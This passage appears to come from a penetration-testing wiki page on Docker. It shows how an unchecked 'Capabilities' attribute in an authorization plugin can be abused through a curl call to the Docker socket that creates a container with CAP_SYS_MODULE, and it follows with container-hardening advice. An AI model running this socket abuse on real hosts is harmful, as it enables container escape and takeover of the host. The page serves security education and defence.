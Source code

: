 ### Unchecked JSON Attribute

It's possible that when the sysadmin configured the docker firewall he **forgot about some important attribute of a parametter** of the API \([https://docs.docker.com/engine/api/v1.40/\#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)\) like "**Capabilities**" inside "**HostConfig**". In the following example it's possible to abuse this misconfiguration to create and run a container with the **SYS\_MODULE** capability:

```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```

## Use containers securely

Docker restricts and limits containers by default. Loosening these restrictions may create security issues, even without the full power of the `--privileged` flag. It is important to acknowledge the impact of each additional permission, and limit permissions overall to the minimum necessary.

To help keep containers secure:

* Do not use the `--privileged` flag or mount a [Docker socket inside the container](https://raesene.github.io/blog/2016/03/06/The-Dangers-Of-Docker.sock/). The docker socket allows for spawning containers, so it is an easy way to take full control of the host, for example, by running another container with the `--privileged` flag.
* Do not run as root inside the container. Use a [different user](https://docs.docker.com/develop/develop-images/dockerfile_best-practices/#user) or [user namespaces](https://docs.docker.com/engine/security/userns-remap/). The root in the container is the same as on host unless remapped with user namespaces. It is only lightly restricted by, primarily, Linux namespaces, capabilities, and cgroups.
* [Drop all capabilities](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) \(`--cap-drop=all`\) and enable only those that are required \(`--cap-add=...`\). Many of workloads don’t need any capabilities and adding them increases the scope of a potential attack.
* [Use the “no-new-privileges” security option](https://raesene.github.io/blog/2019/06/01/docker-capabilities-and-no-new-privs/) to prevent processes from gaining more privileges, for example through suid binaries.
* [Limit resources available to the container](https://docs.docker.com/engine/reference/run/#runtime-constraints-on-resources). Resource limits can protect the machine from denial of service attacks.
* Adjust [seccomp](https://docs.docker.com/engine/security/seccomp/), [AppArmor](https://docs.docker.com/engine/security/apparmor/) \(or SELinux\) profiles to restrict the actions and syscalls available for the container to the minimum required.
* Use [official docker images](https://docs.docker.com/docker-hub/official_images/) or build your own based on them. Don’t inherit or use [backdoored](https://arstechnica.com/information-technology/2018/06/backdoored-images-downloaded-5-million-times-finally-removed-from-docker-hub/) images.
* Regularly rebuild your images to apply security patches. This goes without saying.

## References
